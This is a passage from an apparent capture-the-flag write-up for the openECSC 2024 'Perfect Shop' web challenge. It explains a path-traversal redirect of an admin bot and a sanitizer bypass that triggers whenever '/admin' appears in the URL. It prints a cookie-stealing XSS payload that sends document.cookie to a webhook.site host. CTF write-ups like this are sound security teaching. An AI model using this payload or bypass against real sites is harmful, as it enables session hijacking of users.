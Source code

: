 ![Modifying the product ID with Burp](/writeups/openecsc-2024/perfect_shop/vid/BurpIDmodif.gif)

What I did was change the value of `id` from `1` to `1/../../search?q=Incredible` before it was sent to the server and consequently to the bot. To clarify, I would have achieved the same result if I had done this:

![Modifying the product ID from client-side HTML](/writeups/openecsc-2024/perfect_shop/img/HTMLmodif.png)

Checking the logs, it can be seen that the bot is redirected to `search?q=Incredible`:

![Bot log visiting the search page with the value entered by the reporter](/writeups/openecsc-2024/perfect_shop/img/BotFallsForIt.png)

A brief check of the site's route structure confirms this.

Now all that's left is to try the payload that worked before to exfiltrate our cookie on the bot. Trying the payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, you would notice that the complete URL being visited is `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` or `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` depending on whether you are testing the challenge locally or on the competition server.

This means that the same request must be made by the bot, which means making the same modification made before, combining it with the exploit already used:

![Example of successful attack without filter](/writeups/openecsc-2024/perfect_shop/img/WePwnNoFilter.png)

Of course, I'm not URL-encoding the payload here just to make it easier to understand what's happening, but you viewers at home must remember to URL-encode properly <3 (on Burp, CTRL+U highlighting the text to be URL-encoded):

![Example of URL-encoded payload](/writeups/openecsc-2024/perfect_shop/vid/UrlEncoding4profit.gif)

First, URL-encode for the query parameter value that the bot will send to the search endpoint, and then URL-encode for the entire payload that is about to be sent to the bot.

Sending this payload, you'll receive a request on the webhook with the test flag set in the config:

![Test flag sent on the webhook](/writeups/openecsc-2024/perfect_shop/img/FlagNoFilter.png)

#### Third step: Cookie stealing on the bot with the sanitizer active
On line 16, let's modify the sanitizer again to set it as in the original application, then rebuild everything:

`app.use(sanitizer.clean({ xss: true }, ["/admin"]));`

Once the application is rebuilt, you'll notice that none of the payloads used previously will work anymore, being replaced instead by an empty string.

In this step, there are very few tricks that can be done. To solve this problem, one had to notice the error present in the sanitizer library, and during the competition, it was a far-from-immediate step.

Let's say that for any reason, whether you tried to enter an `/admin` in the request as a query parameter, or during static analysis, you noticed that something was wrong with the sanitizer, now it's known that if `/admin` is a substring of the request URL (remember once again: query parameters are part of the URL), it will cause the sanitizer to ignore any type of XSS payload that is sent.
